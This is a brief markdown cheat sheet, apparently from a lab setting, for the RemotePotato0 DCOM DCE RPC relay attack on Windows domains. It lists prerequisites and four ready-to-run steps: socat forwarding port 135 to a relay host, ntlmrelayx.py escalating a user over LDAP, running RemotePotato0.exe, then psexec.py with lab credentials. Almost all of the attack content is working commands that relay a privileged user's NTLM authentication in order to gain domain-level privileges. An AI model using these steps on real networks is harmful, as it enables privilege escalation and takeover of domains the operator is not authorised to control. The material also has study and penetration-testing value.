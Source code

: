 # RemotePotato0 DCOM DCE RPC relay

### It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine

## Requirements

#### 1) a shell in session 0 (e.g. WinRm shell or SSH shell)

#### 2) a privileged user is logged on in the session 1 (e.g. a Domain Admin user)

## Github repo: https://github.com/antonioCoco/RemotePotato0/

## Steps

    sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 (Terminal)

    sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user (Terminal)

    RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2 (Session 0)

    psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135' (Terminal)
